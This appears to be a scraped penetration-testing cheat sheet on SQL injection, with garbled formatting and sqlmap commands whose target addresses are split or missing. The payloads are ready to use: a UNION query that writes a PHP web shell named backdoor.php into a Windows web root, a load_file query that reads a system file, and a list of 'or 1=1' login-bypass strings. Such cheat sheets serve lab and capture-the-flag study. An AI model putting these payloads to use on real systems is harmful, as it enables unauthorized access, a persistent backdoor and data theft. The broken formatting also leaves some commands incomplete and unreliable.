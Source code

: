 # **SQL Injection (SQL MAP)**

**

## SQL Injection

**  
  
**

### # sqlmap crawl

**

###   
sqlmap -u

[http://](http://10.10.10.10/)

### x.x.x.x  
  

**

### # sqlmap dump database

**

###   
sqlmap -u

[http://](http://10.10.10.10/)

### x.x.x.x  
  

**

### # sqlmap shell

**

###   
sqlmap -u

[http://](http://10.10.10.10/)

### x.x.x.x  
  
sqlmap --url

[http://](http://10.0.0.28:1337/978345210/index.php)

### x.x.x.x  
  
sqlmap --url

[http://](http://192.168.153.144:1337/978345210/index.php)

### x.x.x.x  
  

**

### Upload php command injection file

**

###   
  
union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/inetpub/wwwroot/backdoor.php'  
  

**

### Load file

**

###   
  
union all select 1,2,3,4,load_file("c:/windows/system32/drivers/etc/hosts"),6  
  

**

### Bypasses

**

###   
  
' or 1=1 LIMIT 1 --  
' or 1=1 LIMIT 1 -- -  
' or 1=1 LIMIT 1#  
'or 1#  
' or 1=1 --  
' or 1=1 -- -
